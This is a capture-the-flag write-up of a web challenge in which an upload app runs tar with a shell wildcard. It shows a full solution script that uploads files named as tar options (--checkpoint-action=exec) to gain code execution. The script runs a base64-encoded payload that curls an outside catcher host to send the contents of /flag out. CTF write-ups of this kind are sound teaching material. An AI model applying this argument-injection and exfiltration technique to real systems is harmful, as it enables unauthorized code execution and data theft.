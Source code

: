 https://ctftime.org/event/2252/

# Argument - (Web)

I just wanted to make a simple application where people can store files. But I'm a good college student and have taken web security classes, so I'm aware of all the vulnerabilities that may exist and made my app perfectly secure! There's no way you'd be able to get the flag...

## Solution
At first look I thought this challenge have to do with symlinks or bypassing the filters.
But it actually is about a very obscure interaction, I only found out when my teammate showed it.

First the challenge features:
- you can upload any file with size < 1000
- you can upload any file that doesnt have `..` or `/` on the name
- you can download all the files that you uploaded as a tar file

The vulnerability is on the download endpoint:
```python
os.system(f"cd uploads/{g.uuid}/ && tar -cf out.tar *")
```

The vulnerability here is the use of the glob operator ```*```, 
Basically the way it works is, it expands whatever is on the current dir to the command line
So if we can upload a file called ```-v``` we would toggle the verbose flag on tar
And together with some more obscure tar features we can execute code:

https://www.exploit-db.com/papers/33930

The full solution script:
```python
import requests, uuid, base64

# REMOTE = 'http://localhost:40000'
REMOTE = 'https://argument.chal.cyberjousting.com'
ID = str(uuid.uuid4())

p = '''import subprocess;subprocess.run("curl https://1.requestcatcher.com/12?a=$(cat /flag* |base64)", shell=True)'''
pay = base64.b64encode(p.encode())
exp = f"""python -c \"import base64; exec(base64.b64decode(\\\\"{pay.decode()}\\\\"))\""""

if '/' in exp:
    print(f"DEBUGPRINT[12]: lab.py:11: exp={exp}")
    exit(1)

def upload():
    file = open('somefile', 'rb')

    res = requests.post(REMOTE + '/api/upload',
                        cookies={'uuid': ID},
                        files = {
                          'file':('out.tar', file, 'plain/text')
                        })

    res = requests.post(REMOTE + '/api/upload',
                        cookies={'uuid': ID},
                        files = {
                          'file':('--checkpoint=1', file, 'plain/text')
                        })

    res = requests.post(REMOTE + '/api/upload',
                        cookies={'uuid': ID},
                        files = {
                          'file':(f'--checkpoint-action=exec=' + exp, file, 'plain/text')
                        })

def listr():
    res = requests.get(REMOTE + '/', cookies={'uuid': ID})


def download(): 
    res = requests.get(REMOTE + '/api/download', cookies={'uuid': ID})

upload()
time.sleep(1)
download()
```

## Flag
`byuctf{argument_injection_stumped_me_the_most_at_D3FC0N_last_year}`

shafou - 18/05/2024
